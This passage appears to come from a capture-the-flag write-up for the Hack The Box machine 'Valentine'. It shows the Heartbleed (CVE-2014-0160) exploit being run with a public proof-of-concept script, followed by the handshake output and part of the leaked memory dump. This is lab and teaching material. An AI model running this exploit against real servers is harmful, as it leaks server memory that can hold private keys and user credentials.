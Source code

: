 ### http(80) / https(443)

![](attachments/valentine_1.png)



# Shell as `hype`

### CVE-2014-0160 (HeartBleed)

Since I observed that the target is vulnerable to HeartBleed attack (CVE-2014-0160), let's try this exploit : https://github.com/mpgn/heartbleed-PoC

```bash
┌──(kali㉿kali)-[~/htb/heartbleed-PoC]
└─$ python2 heartbleed-exploit.py valentine.htb
Connecting...
Sending Client Hello...
 ... received message: type = 22, ver = 0302, length = 66
 ... received message: type = 22, ver = 0302, length = 885
 ... received message: type = 22, ver = 0302, length = 331
 ... received message: type = 22, ver = 0302, length = 4
Handshake done...
Sending heartbeat request with length 4 :
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response in file out.txt
WARNING : server returned more data than it should - server is vulnerable!


┌──(kali㉿kali)-[~/htb/heartbleed-PoC]
└─$ cat out.txt                                
  0000: 02 40 00 D8 03 02 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
  0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
  0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
```